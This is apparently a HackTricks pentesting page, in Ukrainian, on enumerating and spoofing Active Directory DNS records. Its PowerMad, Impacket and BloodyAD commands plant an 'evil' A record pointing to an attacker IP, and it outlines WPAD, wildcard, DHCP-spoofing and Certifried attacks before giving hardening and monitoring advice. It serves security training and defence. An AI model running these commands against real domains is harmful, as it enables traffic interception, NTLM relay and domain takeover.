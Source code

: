 # AD DNS Records

{{#include ../../banners/hacktricks-training.md}}

За замовчуванням **будь-який користувач** в Active Directory може **перерахувати всі DNS записи** в зонах DNS Домену або Лісу, подібно до передачі зони (користувачі можуть перерахувати дочірні об'єкти зони DNS в середовищі AD).

Інструмент [**adidnsdump**](https://github.com/dirkjanm/adidnsdump) дозволяє **перерахування** та **експорт** **всіх DNS записів** у зоні для цілей розвідки внутрішніх мереж.
```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

# Enumerate the default zone and resolve the "hidden" records
adidnsdump -u domain_name\\username ldap://10.10.10.10 -r

# Quickly list every zone (DomainDnsZones, ForestDnsZones, legacy zones,…)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --print-zones

# Dump a specific zone (e.g. ForestDnsZones)
adidnsdump -u domain_name\\username ldap://10.10.10.10 --zone _msdcs.domain.local -r

cat records.csv
```
>  adidnsdump v1.4.0 (квітень 2025) додає JSON/Greppable (`--json`) вивід, багатопотокове DNS-резолюцію та підтримку TLS 1.2/1.3 при прив'язці до LDAPS

Для отримання додаткової інформації читайте [https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

---

## Створення / Модифікація записів (ADIDNS спуфінг)

Оскільки група **Authenticated Users** за замовчуванням має **Create Child** на DACL зони, будь-який обліковий запис домену (або обліковий запис комп'ютера) може реєструвати додаткові записи. Це можна використовувати для перехоплення трафіку, примусу NTLM реле або навіть повного компрометації домену.

### PowerMad / Invoke-DNSUpdate (PowerShell)
```powershell
Import-Module .\Powermad.ps1

# Add A record evil.domain.local → attacker IP
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Verbose

# Delete it when done
Invoke-DNSUpdate -DNSType A -DNSName evil -DNSData 10.10.14.37 -Delete -Verbose
```
### Impacket – dnsupdate.py  (Python)
```bash
# add/replace an A record via secure dynamic-update
python3 dnsupdate.py -u 'DOMAIN/user:Passw0rd!' -dc-ip 10.10.10.10 -action add -record evil.domain.local -type A -data 10.10.14.37
```
*(dnsupdate.py постачається з Impacket ≥0.12.0)*

### BloodyAD
```bash
bloodyAD -u DOMAIN\\user -p 'Passw0rd!' --host 10.10.10.10 dns add A evil 10.10.14.37
```
---

## Загальні атаки

1. **Запис з підстановкою** – `*.<zone>` перетворює сервер AD DNS на відповідь для всієї підприємства, подібно до підробки LLMNR/NBNS. Його можна використовувати для захоплення NTLM хешів або для їх реле до LDAP/SMB.  (Вимагає, щоб WINS-lookup був вимкнений.)
2. **WPAD захоплення** – додайте `wpad` (або **NS** запис, що вказує на хост зловмисника, щоб обійти Global-Query-Block-List) і прозоро проксіруйте вихідні HTTP запити для збору облікових даних.  Microsoft виправив обходи підстановки/DNAME (CVE-2018-8320), але **NS-записи все ще працюють**.
3. **Захоплення застарілого запису** – заявіть IP-адресу, яка раніше належала робочій станції, і відповідний DNS запис все ще буде розв'язуватись, що дозволяє атаки з обмеженою делегацією на основі ресурсів або Shadow-Credentials без втручання в DNS.
4. **DHCP → DNS підробка** – на стандартному розгортанні Windows DHCP+DNS неавтентифікований зловмисник в тій же підмережі може перезаписати будь-який існуючий A запис (включаючи контролери домену), надіславши підроблені DHCP запити, які викликають динамічні оновлення DNS (Akamai “DDSpoof”, 2023).  Це дає можливість атаки "машина посередині" через Kerberos/LDAP і може призвести до повного захоплення домену.
5. **Certifried (CVE-2022-26923)** – змініть `dNSHostName` облікового запису машини, якою ви керуєте, зареєструйте відповідний A запис, а потім запитайте сертифікат на це ім'я, щоб видавати себе за DC. Інструменти, такі як **Certipy** або **BloodyAD**, повністю автоматизують цей процес.

---

## Виявлення та зміцнення

* Відмовте **Аутентифікованим Користувачам** право *Створювати всі дочірні об'єкти* на чутливих зонах і делегуйте динамічні оновлення спеціальному обліковому запису, що використовується DHCP.
* Якщо динамічні оновлення необхідні, встановіть зону на **Тільки безпечну** і увімкніть **Захист Імен** в DHCP, щоб лише об'єкт комп'ютера-власника міг перезаписати свій власний запис.
* Моніторте події DNS сервера з ID 257/252 (динамічне оновлення), 770 (передача зони) та записи LDAP до `CN=MicrosoftDNS,DC=DomainDnsZones`.
* Блокуйте небезпечні імена (`wpad`, `isatap`, `*`) з навмисно безпечним записом або через Global Query Block List.
* Тримайте DNS сервери оновленими – наприклад, RCE вразливості CVE-2024-26224 та CVE-2024-26231 досягли **CVSS 9.8** і можуть бути віддалено експлуатовані проти контролерів домену.

## Посилання

* Kevin Robertson – “ADIDNS Revisited – WPAD, GQBL and More”  (2018, все ще де-факто посилання для атак з підстановкою/WPAD)
* Akamai – “Spoofing DNS Records by Abusing DHCP DNS Dynamic Updates” (Грудень 2023)
{{#include ../../banners/hacktricks-training.md}}
